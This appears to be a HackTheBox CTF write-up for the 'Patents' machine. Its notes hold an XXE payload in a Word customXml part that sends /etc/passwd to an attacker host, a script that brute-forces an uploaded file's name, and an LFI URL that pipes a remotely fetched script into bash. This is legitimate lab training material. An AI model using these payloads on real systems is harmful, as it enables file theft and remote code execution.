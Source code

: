 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/TtAa0vFyXYU/0.jpg
layout: post
media_subpath: /assets/posts/2020-05-16-patents-hackthebox
tags:
- binary exploitation
- hackthebox
- lfi
- linux
- path traversal
- rop
- word
- xxe
title: Patents @ HackTheBox
---
```


Patents is a 40-point Linux machine on HackTheBox. For user we exploit an external entity injection in a word document and a local file inclusion that involves path traversal and calculating the name of an uploaded file. For root we use return oriented programming to exploit a stack overflow in a tcp server.

{% youtube TtAa0vFyXYU %}

## Notes

customXml\\item1.xml:

```xml
<?xml version="1.0" ?>

<!ENTITY % sp SYSTEM "http://10.10.14.8:8000/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

dtd.xml:

```xml
<!ENTITY % data SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.8:8000/dtd.xml?%data;'>">
```

Rce.py:

```python
#!/usr/bin/python3
import hashlib
import datetime
import requests
import time

proxyDict = { 
              "http"  : "127.0.0.1:8081", 
            }

result = requests.get("http://patents.htb")
dateHdr = result.headers['Date']
t = datetime.datetime.strptime(dateHdr, '%a, %d %b %Y %H:%M:%S GMT')
t -= datetime.timedelta(minutes=5)
it = int(t.timestamp())


while True: 
    url = f"http://patents.htb/uploads/{hashlib.sha256(b'xct.php' + str(it).encode('utf-8')).hexdigest()}.docx"
    r = requests.get(url)#, proxies=proxyDict)
    if r.status_code == 200:
        print(it)
        print(url)
    it += 1
```

LFI:

```
http://patents.htb/getPatent_alphav1.0.php?id=..././uploads/<id>.docx&cmd=curl%2010.10.14.8:8000/xct.sh%20|%20bash
```

The [Root Exploit](https://gist.github.com/xct/015d603058327f081c6fd4357de34a54).

## Reads

- <https://blogs.sap.com/2017/04/24/openxml-in-word-processing-custom-xml-part-mapping-flat-data/>
- <https://0x00sec.org/t/remote-exploit-shellcode-without-sockets/1440>
- <https://github.com/Svenito/exploit-pattern>